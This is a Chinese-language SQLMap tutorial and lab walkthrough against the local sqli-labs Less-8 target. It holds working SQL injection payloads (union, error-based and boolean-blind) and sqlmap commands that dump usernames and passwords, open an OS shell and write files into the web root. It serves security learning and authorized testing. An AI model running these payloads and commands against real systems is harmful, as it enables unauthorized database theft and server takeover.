










> Environment: PHP 7.3.4 + MySQL 5.7.26

> Lab: sqli-labs Less-8

---

## 1.0 介绍

### 1.1 SQLMap是什么:

SQLMap 是一款自动化检测和利用 SQL 注入漏洞的开源工具。它负责你手工做完“确认注入点, 闭合方式, 注入类型”之后的**重复劳动**——自动化拖库, 拿 Shell。

### 1.2 参数及作用

| 参数          | 用途                                                         | 示例                                              |
| ------------- | ------------------------------------------------------------ | ------------------------------------------------- |
| -u            | 指定GET请求的URL                                             | sqlmap -u "url ?id=1"                             |
| -r            | 从文件加载HTTP请求(POST, Cookie)                             | sqlmap -r request.txt                             |
| -m            | 批量扫描多个URL(文件列表)                                    | sqlmap -m urls.txt                                |
| -p            | 指定要测试的参数(多参数时用)                                 | sqlmap -u "..." -p username                       |
|               | **注入检测与配置**                                           |                                                   |
| --level       | 检测深度1-5,默认1; 2会检测Cookie, 3检测User-Agent/Referer    | `--level 3` 会测 HTTP 头注入                      |
| --risk        | 风险等级 1-3。`2` 会测 `OR 1=1`，`3` 会测 `OR` 更新数据      | `--risk 2` 可能修改数据库                         |
| --prefix      | 指定 Payload 的前缀（闭合符号）                              | --prefix="1'"                                     |
| --suffix      | 指定 Payload 的后缀（注释符）                                | --suffix="--+"                                    |
| --technique   | 指定注入类型：B（布尔盲注），T（时间盲注），U（UNION），E（报错），S（堆叠） | 手工确认后，用 `--technique=B` 只跑盲注，加速扫描 |
|               | **数据获取**                                                 |                                                   |
| --dbs         | 列出所有数据库                                               | sqlmap -u "..." --dbs                             |
| --current-db  | 当前库名                                                     | sqlmap -u "..." --current-db                      |
| -D            | 指定数据库                                                   | -D security                                       |
| --tables      | 列出表                                                       | -D security --tables                              |
| -T            | 指定表                                                       | -T users                                          |
| --columns     | 列出列                                                       | -D security -T users --columns                    |
| -C            | 指定列（逗号分隔）                                           | -C username,password                              |
| --dump        | 拖出数据                                                     | -D security -T users --dump                       |
| --dump-format | 输出格式                                                     | `CSV`,`HTML`,`SQLITE`                             |
|               | **系统交互**                                                 | **前提条件**                                      |
| --os-shell    | 获取系统 Shell                                               | MySQL 有写文件权限、知道绝对路径、支持堆叠注入    |
| --os-cmd      | 执行单条系统命令                                             | 同上                                              |
| --file-read   | 读取目标文件                                                 | 有文件读权限                                      |
| --file-write  | 上传文件到目标                                               | 有文件写权限                                      |
| --file-dest   | 指定目标文件路径                                             | 有文件写权限                                      |

### 1.3 输出信息解读

| SQLMap 输出信息                                              | 含义                          | 你的行动                              |
| ------------------------------------------------------------ | ----------------------------- | ------------------------------------- |
| `[INFO] testing for SQL injection on parameter 'id'`         | 正在测试注入点                | 等待结果                              |
| `[INFO] parameter 'id' is 'MySQL >= 5.0' injectable`         | 确认注入存在，目标为 MySQL    | 可以直接用 `--dbs` 爆库               |
| `[CRITICAL] connection timed out`                            | 网络超时                      | 降低 `--threads` 或加 `--delay`       |
| `[WARNING] the SQL query provided does not return any output` | 注入点无回显，SQLMap 切换盲注 | 耐心等待，或指定 `--technique`        |
| `[INFO] fetching tables for database: 'security'`            | 正在提取表名                  | 等待，不要中断                        |
| `[INFO] retrieved: users`                                    | 成功提取到表名                | 继续下一步                            |
| `[INFO] the back-end DBMS is MySQL`                          | 识别出数据库类型              | 可用 MySQL 特有函数（如 `LOAD_FILE`） |

### 1.4 高级用法

| 参数            | 用途                                                      |
| --------------- | --------------------------------------------------------- |
| --tamper        | 调用绕过脚本（如 `space2comment` 绕过空格过滤)            |
| --threads       | 并发线程数（1-10），盲注时提速                            |
| --delay         | 每次请求间隔秒数，防封 IP                                 |
| --proxy         | 通过代理发送（如 `--proxy http://127.0.0.1:8080` 走 Burp) |
| --random-agent  | 随机 User-Agent，避免简单防护                             |
| --batch         | 所有选项选默认，全自动化                                  |
| --flush-session | 清除缓存重新测试，防止误报                                |

---

## 2.0 靶场实战

**01 确认注入点符号闭合方式**

```mysql
?id=1'     --报错
?id=1' --+ --恢复
```





**02 确认有无回显**

```mysql
?id=1' order by 4 --+             --探测无反应
?id=1' union select 1,2,3,4 --+   --探测无反应
```

**03 使用报错方式**

```mysql
?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1) --+
```


> 页面无任何报错回显

> 以上联合注入和报错均不能使用,尝试使用盲注

**04 布尔盲注, 探测数据库字段长度看页面变化**

```mysql
?id=1' and length(database())=8 --+
```



> 可见该数据库名字段长度是8, 布尔盲注生效

**05 使用sqlmap进行快速拖库**

- **信息梳理**
  - 该注入点类型为布尔盲注
  - 数据库名字段长度=8
  - GET型
- **获取当前数据库**

```mysql
sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-8/?id=1" --technique=B --current-db
```



> 如上图, 布尔盲注成功注入, 获取当前数据库, 库名为 security, 也反证前面获取字段长度无误

- **获取当前数据库所有表**

```mysql
sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-8/?id=1" -D security --tables
```



> 成功获取security下所有数据表

- **获取指定表所有字段**

```mysql
sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-8/?id=1" -D security -T users --columns
```



> 可见users表中有3个字段,分别是 id password username 

- **获取指定字段数据**

```mysql
sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-8/?id=1" -D security -T users -C "username,password" --dump
```



> 如图, 数据被打印在控制台, 同时默认会在用户\AppData\Local\sqlmap\output\127.0.0.1\dump\security下生成csv文件存放本次结果

- **获取系统shell**

```mysql
sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-8/?id=1" --os-shell
```



>命令执行后, 第一个选项是当前网站语言, 选择[5]PHP
>
>第二个选项是选择指定目录,这里选择[2], (靶场部署时路径透明)
>
>如图已经成功拿到shell

- os-shell可执行操作:
  - 获取服务器地址
  - 写入内容
    - 文本
    - 代码

```bash
# 获取网络信息
ipconfig      --windows
ifconfig/ip a --linux
# 写入内容
echo xxx > 路径/文件名
```

- **文件写入测试:**

```bash
os-shell> echo hello > D:\phpstudy\WWW\sqli-labs\Less-8\hello.txt
```



> 以上操作均在本地靶场环境进行，仅供安全学习与授权测试使用，请勿用于未授权攻击。
>
> The above operations are carried out in the local shooting range environment and are only for safety learning and authorized testing purposes. Please do not use them for unauthorized attacks.